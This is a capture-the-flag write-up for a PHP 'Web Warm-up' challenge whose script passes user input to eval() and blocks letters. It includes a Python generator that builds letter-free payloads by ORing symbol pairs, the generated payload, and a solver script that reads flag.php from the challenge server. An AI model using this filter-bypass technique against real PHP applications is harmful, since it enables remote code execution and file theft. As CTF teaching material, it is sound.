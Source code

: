 ## Web Warm-up
The main idea finding the flag is to find the flag using PHP injections.

#### Step-1:

We are given a URL [http://69.90.132.196:5003/?view-source](http://69.90.132.196:5003/?view-source) which greets us with this PHP script. We want to get contents of a file `flag.php` in this task.

The PHP script is as follows:
```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
?>
```
#### Step-2:
The PHP code is executed and when `eval()` function is execute, the parameter which we need to take care is `warmup`.

We can send this payload as `warmup`, but written as some operation of 2 strings that don't use any alphabets.

#### Step-3:

The following `Gen.py` will help to generate such payloads.

```py
#!/usr/bin/env python
from rich import print
import string

pay = "readfile('flag.php');"
w = {c:[] for c in pay}
cand = '0123456789!#$%&()*+,-./:;<=>?@[]^_`{|}~"\''
for c in cand:
    if c not in string.ascii_letters:
        for d in cand:
            if d not in string.ascii_letters:
                f = chr(ord(c)|ord(d))
                if f in w and not w[f]:
                    w[f].append((c, d))

print(w)
one = []
two = []
for c in pay:
    one.append(w[c][0][0])
    two.append(w[c][0][1])
print(f'"{"".join(one)}"|"{"".join(two)}"')
```

#### Step-4:

When we execute it in terminal using `python3 Gen.py` we obtain the following result:

```bash
{
    "'": [('!', '&')],
    '(': [('(', '(')],
    ')': [('!', '(')],
    '.': [('$', '*')],
    ';': [('0', '+')],
    'a': [('!', '@')],
    'd': [('$', '@')],
    'e': [('%', '@')],
    'f': [('&', '@')],
    'g': [('@', "'")],
    'h': [('(', '@')],
    'i': [(')', '@')],
    'l': [(',', '@')],
    'p': [('0', '@')],
    'r': [('2', '@')],
}
"2%!$&),%(!&,!@$0(0!!0"|"@@@@@@@@(&@@@'*@@@&(+"
```
The last line is our payload.

#### Step-5:
Next we use our final `Solution.py` to get the flag.

The code for `Solution.py` would be as follows:

```py
#!/usr/bin/env python

import requests

url = 'http://69.90.132.196:5003/'
payl = {
    'warmup': r"""
("2%!$&),%"|"@@@@@@@@")("&,!@$0(0"|"@@@'*@@@"); #Payloads produced before inserted here.
""".strip()
}
r = requests.get(url, params=payl)
print(r.text.split('"')[1])
```
#### Step-6:
Finally when we execute this by `python3 Solution.py` we get the flag.


#### Step-7:
Finally, the flag is:
`ASIS{w4rm_up_y0ur_br4in}`

###### Definitely, not a Warm Up xD. 
